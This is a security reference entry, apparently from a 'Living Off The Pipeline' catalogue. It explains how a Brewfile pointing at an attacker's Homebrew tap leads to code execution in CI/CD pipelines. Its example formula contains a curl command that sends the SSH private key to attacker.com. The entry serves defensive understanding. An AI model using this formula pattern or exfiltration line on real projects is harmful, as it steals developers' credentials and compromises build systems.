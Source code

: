 ```yaml
---
layout: tool
title: brew
tags: [cli, config-file, eval-ruby, rce]
references:
- https://github.com/Homebrew/homebrew-bundle
- https://docs.brew.sh/Formula-Cookbook
files: [Brewfile]
---
```


## Living Off The Pipeline - brew (Homebrew)

`Homebrew` is a popular package manager for macOS and Linux. Its reliance on executable Ruby scripts ("formulae") and third-party repositories ("taps") makes it a powerful "Living Off The Pipeline" (LOTP) tool.

### First-Order LOTP Tool

`brew` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as its purpose is to execute installation scripts from potentially attacker-controlled sources.

#### Malicious Primitive: Remote Code Execution (RCE)

The primary vector for `brew` is the `Brewfile`, which is a repository-local file that lists project dependencies. An attacker can add two key items to this file:
1.  A `tap` line, which points to their own malicious Git repository containing Homebrew formulae.
2.  A `brew` line, which instructs Homebrew to install a formula from that malicious tap.

A Homebrew formula is a Ruby script. The `install` method of a formula can contain arbitrary shell commands. When a CI/CD pipeline runs `brew bundle` to install dependencies from the `Brewfile`, it will execute the `install` method of the attacker's formula.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request containing a modified `Brewfile`.
    ```ruby
    # Brewfile
    tap "attacker/homebrew-pwn"
    brew "malicious-formula"
    ```

2.  **Attacker's Tap:** The attacker hosts a public Git repository (e.g., `github.com/attacker/homebrew-pwn`) containing their malicious formula.
    ```ruby
    # malicious-formula.rb
    class MaliciousFormula < Formula
      homepage "https://attacker.com"
      url "https://attacker.com/v1.0.tar.gz" # Dummy URL
      sha256 "..." # Dummy checksum

      def install
        # Malicious payload
        system "curl --data-binary @$HOME/.ssh/id_rsa http://attacker.com/"
      end
    end
    ```

3.  **Vulnerable Workflow:** The pipeline contains a standard command to install dependencies.
    ```yaml
    - name: Install Homebrew dependencies
      run: brew bundle
    ```

4.  **Execution:**
    *   The `brew bundle` command is executed.
    *   It reads the `Brewfile`, adds the attacker's `tap`, and then proceeds to install `malicious-formula`.
    *   To install the formula, Homebrew executes the Ruby code in the `install` method.
    *   The attacker's `system` command runs, exfiltrating sensitive files.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in a remote repository that is trusted and executed by the package manager.